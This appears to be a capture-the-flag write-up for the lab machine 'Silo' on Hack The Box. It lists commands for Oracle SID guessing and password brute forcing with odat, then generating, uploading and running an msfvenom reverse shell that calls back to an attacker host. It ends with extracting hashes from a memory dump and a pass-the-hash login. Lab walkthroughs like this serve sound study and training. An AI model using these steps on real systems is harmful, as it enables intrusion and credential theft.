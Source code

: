 ## Silo

Difficulty: Medium

### User and Root Flag

```
rustscan -a 10.10.10.82 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/31be8266-2d50-4e92-b848-8261f0339e7a)

<br>

Searching for Oracle TNS listener pentest, we find this tool called odat.

We first need to find SIDs and brute force users.

```
# Find sids
python3 odat.py sidguesser -s silo.htb -p 1521 --sids-file=resources/sids.txt

# Brute force credentials
python3 odat.py passwordguesser -s silo.htb -d XE
```

![findSid](https://github.com/b1d0ws/OSCP/assets/58514930/b2523bbf-3005-4926-b343-e451facf2c8e)

![bruteForceUser](https://github.com/b1d0ws/OSCP/assets/58514930/7bf3fb73-88f8-4114-83fd-662de7c538e2)

<br>

Finding valid credentials, we can upload a reverse shell executable.

```
# Creating payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=1337 -f exe > revshell.exe

# Uploading file
python3 odat.py utlfile -s silo.htb --sysdba -d XE -U scott -P tiger --putFile /temp shell.exe ../revshell.exe

# Getting reverse shell
python3 odat.py externaltable -s silo.htb --sysdba -d XE -U scott -P tiger --exec /temp shell.exe
```

![generatePayload](https://github.com/b1d0ws/OSCP/assets/58514930/b07b4e54-6815-46d6-b36b-53f8a6682532)

![reverseShell](https://github.com/b1d0ws/OSCP/assets/58514930/1ea5131d-8545-4120-a6f7-ff08f7165970)

#### Extra

```
# There is this file "Oracle issue.txt" on desktop, but the password is not being displayed correctly.

# Convert to base64 on Windows
$fc = Get-Content "Oracle issue.txt"
$fe = [System.Text.Encoding]::UTF8.GetBytes($fc)
[System.Convert]::ToBase64String($fe)

# Read it on Linx
echo -n "U3VwcG9ydCB2ZW5kb3IgZW5nYWdlZCB0byB0cm91Ymxlc2hvb3QgV2luZG93cyAvIE9yYWNsZSBwZXJmb3JtYW5jZSBpc3N1ZSAoZnVsbCBtZW1vcnkgZHVtcCByZXF1ZXN0ZWQpOiAgRHJvcGJveCBsaW5rIHByb3ZpZGVkIHRvIHZlbmRvciAoYW5kIHBhc3N3b3JkIHVuZGVyIHNlcGFyYXRlIGNvdmVyKS4gIERyb3Bib3ggbGluayAgaHR0cHM6Ly93d3cuZHJvcGJveC5jb20vc2gvNjlza3J5emZzemI3ZWxxL0FBRFpuUUViYnFEb0lmNUwyZDBQQnhFTmE/ZGw9MCAgbGluayBwYXNzd29yZDogwqMlSG04NjQ2dUMk" | base64 -d

# With this we get access to a dump file. We can extract hashes using volatility.
volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump

# Login with pass the hash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 //10.10.10.82 cmd
```
